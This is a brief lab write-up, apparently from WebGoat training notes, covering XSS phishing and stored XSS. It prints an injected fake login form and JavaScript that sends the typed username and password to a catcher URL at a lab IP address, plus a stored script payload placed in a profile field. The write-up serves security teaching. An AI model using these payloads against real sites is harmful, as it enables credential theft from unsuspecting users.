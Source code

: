 # Phishing with XSS

Create a HTML form with 2 input fields and 1 submit button. When this button is clicked, we can see that it could our javascript code `alert('1')`

```javascript
<script>
function login() {
    alert("This is the login function!");
}
</script>
```

```html
<h1>Login required!</h1><br>
Enter username: <input type="text" id="username"><br>
Enter password: <input type="password" id="password"><br>
<input type="submit" name="login" onclick="login()">
```

The code for collecting the credentials will be replacing the code  `"alert('1')"`. The javascript will be made up of getting the user text field (id = `username`) and password field (id =  `password`).

Using javascript we can retrieve these values by simply:
(for username) `document.getElementById("username").value`
(for password) `document.getElementById("password").value`

Modifying the whole HTML code to

```html
<h1>Login required!</h1><br>
Enter username: <input type="text" id="username"><br>
Enter password: <input type="password" id="password"><br>
<input type="submit" name="login" onclick="login()">
```

```javascript
<script>
function login() {
    var temp=new Image();
    temp.src="http://http://192.168.247.135/WebGoat/catcher?PROPERTY=yes&user=" + document.getElementById("username").value+"&password="+document.getElementById("password").value;
}
</script>
```

# Stored XSS (stage 1)

Login in with as Tom and update his profile's street as `<script>alert(1)</script>` . 

Login as Jerry this time and view Tom's profile to see the stored XSS gets triggered.
